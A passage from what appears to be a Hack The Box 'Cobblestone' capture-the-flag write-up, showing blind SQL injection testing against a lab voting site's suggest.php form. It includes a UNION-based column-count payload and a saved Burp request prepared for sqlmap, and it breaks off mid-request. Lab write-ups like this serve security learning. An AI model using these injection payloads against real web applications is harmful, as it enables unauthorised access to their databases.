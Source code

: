 ![Suggestion](/assets/img/cobblestone-htb-season8/cobblestone-htb-season8_suggestion_3.png)

![Suggestion](/assets/img/cobblestone-htb-season8/cobblestone-htb-season8_suggestion_4.png)

Got `500 Internal Server Error`, hmm this could be a good sign for SQLi. That was interesting.

### SQL Injection & RCE & Cracking
So continue to testing out how many columns we got with this payload `99999' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL #` and the result is `500`. Then decrease one column and we got `200`. <br>
&rarr; So we can conclude that this is Blind SQli and got 5 columns. To make it automate, we gonna use `sqlmap` to do this.

First we gonna `Copy to file` the following request in burpsuite and save it as `req`.

```bash
└─$ cat req 
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
Content-Length: 49
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://vote.cobblestone.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```